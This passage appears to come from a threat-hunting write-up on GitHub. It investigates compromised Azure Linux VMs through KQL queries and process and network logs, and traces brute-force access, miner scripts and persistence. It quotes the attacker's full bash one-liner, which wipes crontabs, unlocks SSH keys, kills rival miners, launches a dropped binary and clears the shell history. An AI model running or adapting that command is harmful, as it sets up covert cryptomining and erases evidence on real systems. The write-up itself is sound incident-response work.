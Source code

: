 **Query Used**:
```kql
let CompromisedDevices = dynamic(["linux-programatic-ajs","linux-programatical-vul-remediation-lokesh.p2zfvso05mlezjev3ck4vqd3kd.cx.internal.cloudapp.net","sakel-lunix-2","linux-programmatic-vm-danny.p2zfvso05mlezjev3ck4vqd3kd.cx.internal.cloudapp.net", "linux-program-fix.p2zfvso05mlezjev3ck4vqd3kd.cx.internal.cloudapp.net", "linux-programatic-ajs.p2zfvso05mlezjev3ck4vqd3kd.cx.internal.cloudapp.net", "linuxvmdavid.p2zfvso05mlezjev3ck4vqd3kd.cx.internal.cloudapp.net", "sakel-lunix-2.p2zfvso05mlezjev3ck4vqd3kd.cx.internal.cloudapp.net"]);
DeviceInfo
//| where PublicIP == "20.81.228.191"
| where DeviceName in (CompromisedDevices)
| distinct DeviceName, PublicIP, OSPlatform, OSDistribution, DeviceType
```
![image](https://github.com/user-attachments/assets/843fbeaa-4e05-4712-a86b-98cd0ac1ef09)


Investigation of the vm-danny was odd, the device was first seen on Mar 10, 2025 1:57:33 PM and last seen Mar 10, 2025 7:06:53 PM. Initial look into the process table appeared that the device was infected with the same malware before it was first seen as it displayed behavior mid malware execution and persistance. There was no insertion technique to be seen or even any VM configuration from azure on the logs. I'm led to believe that the device was either not logging before the time it was first seen or that attacker had completely botched clearing their tracks only to erase a significant portion of the devices logs. However on the network event side, this device logged 107720 connection requests out with the /var/tmp/.update-logs/.bisis script and 9277 with the /var/tmp/.update-logs/Update script.

Investigation into linux program fix device yielded the same pattern of activity with the exception of a short attempt to brute force the device from an australian IP, 170.64.230.111, as account name backup and proxy until they gained access with root. It may be a coincidence that the logon event at 0551 AM happens to be when the /bin/sh /etc/update-motd.d/90-updates-available recon pattern appears. The log may have been cleaned to cover the point of entry, however it is safe to assume that this IP is associated with the activity based on what comes next. The next series of process events follows the pattern as expected with the exception of /usr/sbin/sshd -D -R from the very same IP to the scp command pulling an executable from the tmp/cache leading to a bash command leading to the creation of the ./MNFleGNm and retea script. The device would then continue to follow the same pattern of activity as seen previously in all areas.

```
bash
bash -c "crontab -r ; chattr -iae ~/.ssh/authorized_keys >/dev/null 2>&1 ; cd /var/tmp ; rm -rf /dev/shm/.x /dev/shm/rete* /var/tmp/payload /tmp/.diicot /tmp/kuak ; chattr -iae /var/tmp/Documents/.diicot ; chattr -iae /var/tmp/.update-logs/History ; chattr -iae /var/tmp/.update-logs/Update ; rm -rf /var/tmp/.update-logs /var/tmp/Documents ; mkdir /var/tmp/Documents > /dev/null 2>&1 ; cd /var/tmp/ ; pkill Opera ; rm -rf /var/tmp/Documents /var/tmp/.update-logs ; rm -rf xmrig  .diicot .black Opera ; rm -rf .black xmrig.1 ; pkill cnrig ; pkill java ; killall java ;  pkill xmrig ; killall cnrig ; killall xmrig ;cd /var/tmp/ ; chmod 777 MNFleGNm ; ./MNFleGNm </dev/null &>/dev/null & disown ; history -c ; rm -rf .bash_history ~/.bash_history"
```
![image](https://github.com/user-attachments/assets/32a440fd-9970-4434-aa70-79694a86361c)
![image](https://github.com/user-attachments/assets/c31054ab-c0e8-44e0-9821-a500751a37cd)
![image](https://github.com/user-attachments/assets/eda92468-62ec-4575-b6e6-74476c5e593a)
